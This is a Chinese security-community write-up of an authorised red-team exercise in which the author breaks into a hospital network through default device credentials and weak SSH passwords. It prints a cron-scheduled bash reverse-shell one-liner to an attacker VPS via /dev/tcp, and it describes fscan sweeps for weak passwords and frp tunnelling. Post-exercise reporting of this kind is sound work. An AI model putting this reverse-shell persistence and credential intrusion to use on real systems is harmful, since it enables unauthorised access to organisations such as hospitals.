 

# 奇安信攻防社区 - 记一次有趣的地市攻防演练经历

### 记一次有趣的地市攻防演练经历

声明：本次所有目标均获得授权，文章内容仅供安全研究人员学习提升所用，请勿用文章内知识用于违法犯罪。文章内容主要记录攻防经历，可能没有太多的干货内容，欢迎师傅们留言交流。

**声明：本次所有目标均获得授权，文章内容仅供安全研究人员学习提升所用，请勿用文章内知识用于违法犯罪。**

# 0x00 写个开头凑字数

这次攻防打的还是比较有意思的，开局电脑摆烂恼火的很，最后没电脑只能拿着销售的电脑疯狂输出。

![image.png](assets/1698900782-bdcb986e5a64f844079fea6af59a86ab.png)

去拿电脑没一会的功夫我们的私有目标就被干出局了，这次的规则还是有点问题按系统分给各个队伍，不是按照目标单位分的，别人分到我们私有目标的部分系统基础分和数据分薅完一下被干出局了，后面再打只有 100 路径分，还有老 6 盯着我们的私有目标打，有个泛微 office 的洞我们手上没有，目标一放出来就穿了，怪自己太菜了。

排名最后还算理想吧最终排名第三，跟两个技术大哥没后端支撑的情况排到前三还是可以的，前面两位重量级选手卷不过啊，一个提交 0day 另外一个后端支撑有名的卷，最后前两名分数比我们高出一半多。

废话讲完了，开始我们的内容，码打的严师傅们勿怪，文章最后欢迎师傅们留下评论来交流。

# 0x01 目标

## 某医院外网弱口令

第一天分了私有目标和公共目标，这个目标是公共池目标，运气也是比较好外网一个弱口令直接进去了，主要就是要知道 IP 地址，突破到内网这里没啥技术含量，目标给的是一个官网的地址，估计其他队伍的师傅们都去冲云上官网那个 IP 了，后面云上的我们也通过信息科专用共享服务器上密码文件拿到了所有权限。

### 攻击路径

![image.png](assets/1698900782-3feddfd7e3edcfe8e65c026980900a2b.png)

下面我会按照上面图上标记的序号说明内网攻击过程

### 路径 1/路径 2 外网弱口令

这里说下这个目标 IP 怎么来的，通过 IP 地址收集 C 段信息找到 h3c 设备，默认审计账号密码登陆上去命令控制台查看对应授权信息确定是目标 IP 地址，但是审计账号没有配置权限没法做 vpn 隧道这些，所以做了个全端口扫描发现一个非标准端口的 ssh 弱口令，这里拿到服务器权限后我先做了一个反弹 shell 计划任务。

crontab -e 编辑计划任务

```php
bash -c 'exec bash -i &>/dev/tcp/you vps ip/you vps port <&1'
```

做完计划任务之后我才上 fscan 扫描，发现内网很多 ssh、mssql 弱口令，ssh 反弹 shell 计划任务又做了几台，防止一会动作太大掉了。

![image.png](assets/1698900782-695112517d0fb8d57fb0ab792bb46b0a.png)

内网弱口令一薅一大把，建个 frp 方便一会去内网翻东西，下载对应编译好的版本就可以。

